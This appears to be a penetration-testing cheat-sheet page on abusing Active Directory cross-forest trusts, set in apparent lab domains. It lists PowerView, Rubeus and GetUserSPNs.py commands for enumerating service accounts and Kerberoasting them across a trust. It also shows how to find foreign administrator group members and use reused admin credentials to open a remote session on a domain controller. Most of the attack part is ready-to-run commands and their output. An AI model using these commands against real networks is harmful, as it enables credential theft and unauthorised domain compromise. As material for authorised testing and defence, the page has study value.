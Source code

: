 # Cross-Forest Trust Abuse

Kerberoasting and ASREPRoasting can be performed across trusts, depending on its direction. **In a domain with either inbound or bidirectional domain/forest trust we can perform various attacks.** Like obtaining a Kerberos ticket and cracking the hash.

#### Enumerate accounts for SPNs

```powershell
# Find users
Get-DomainUser -SPN -Domain ZENCORP.LOCAL | select SamAccountName

# Check group memberships
Get-DomainUser -Domain ZENCORP.LOCAL -Identity mssqlsvc |select samaccountname,memberof

# Kerberoast
.\Rubeus.exe kerberoast /domain:ZENCORP.LOCAL /user:mssqlsvc /nowrap
```

Or from Linux

```bash
GetUserSPNs.py -request -target-domain MACDOMAIN.LOCAL ZENORP.LOCAL/wley  
```

### <mark style="color:yellow;">Admin Password Re-Use & Group Membership</mark>

Sometimes usernames that we find in domain A and domain B its possible that they have the same password. Also taking over Admins in domain  A that have membership in domain B which would give access to domain B as well.

Here we se Administrator of ZENCORP have also Administrator account for MACDOMAIN.&#x20;

```powershell
Get-DomainForeignGroupMember -Domain ZENCORP.LOCAL

GroupDomain             : ZENCORP.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=ZENCORP,DC=LOCAL
MemberDomain            : ZENCORP.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=ZENORP,DC=LOCAL

PS C:\zen> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

MACDOMAIN\administrator
```

Based on that membership we gain access

```powershell
Enter-PSSession -ComputerName DC01.ZENCORP.LOCAL -Credential MACDOMAIN\administrator
```

